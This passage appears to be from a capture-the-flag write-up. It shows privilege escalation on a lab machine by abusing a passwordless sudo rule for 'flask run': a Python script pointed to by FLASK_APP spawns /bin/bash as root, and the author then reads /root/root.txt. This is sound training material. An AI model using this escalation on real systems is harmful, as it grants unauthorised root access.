

[< Back](../../README.md)

Now that we have access inside, let's look around the place, let's look at our permissions `sudo -l`:
<p></p>

We can execute `/usr/bin/flask run` as root without password. Running the commands says that FLASK_APP env var wasn't set, we have to give it a program.

Let's make a simple python script that launches a bash instance:
```py
import os

os.system('/bin/bash')
```
Then we can run it with `FLASK_APP=/home/prof/test.py sudo /usr/bin/flask run`, and just like that we get root access.

Final step let's cat `/root/root.txt`:
<p></p>
